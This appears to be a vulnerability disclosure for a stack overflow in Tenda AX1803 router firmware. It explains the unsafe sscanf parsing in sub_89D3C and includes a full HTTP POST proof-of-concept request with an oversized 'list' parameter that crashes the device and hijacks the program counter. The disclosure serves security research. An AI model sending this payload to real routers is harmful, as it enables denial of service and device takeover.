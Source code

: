 #  Tenda AX1803 (V1.0.0.1) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn
- Firmware download address ： https://www.tenda.com.cn/download/detail-3421.html

### Product Information

Tenda AX1803 V1.0.0.1, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The Tenda AX1803 (V1.0.0.1) was found to have a stack overflow vulnerability in the formSetVirtualSer function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220804202859967](img/image-20220804202859967.png)

In the `formSetVirtualSer` function, `v2` (the value of `list`) we entered will be passed into the `sub_89D3C` function as a parameter, and this function has stack overflow.

![image-20220805012624084](img/image-20220805012624084.png)

In the `sub_89D3C` function,the `a2`  (the value of `list`)  is formatted using the `_isoc99_sscanf` function and in the form of `%[^,]%*c%[^,]%*c%[^,]%*c%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `s`、 `v12` 、`v13` or `v14`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/SetVirtualServerCfg HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;
Content-Length: 336
Origin: http://192.168.0.1
DNT: 1
Connection: close
Referer: http://192.168.0.1/index.html
Cookie: ecos_pw=eee:language=cn

list=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,b,c,d~
```

![image-20220804202006797](img/image-20220804202006797.png)

 By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![image-20220804235435725](img/image-20220804235435725.png)

As shown in the figure above, we can hijack PC registers.

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell.

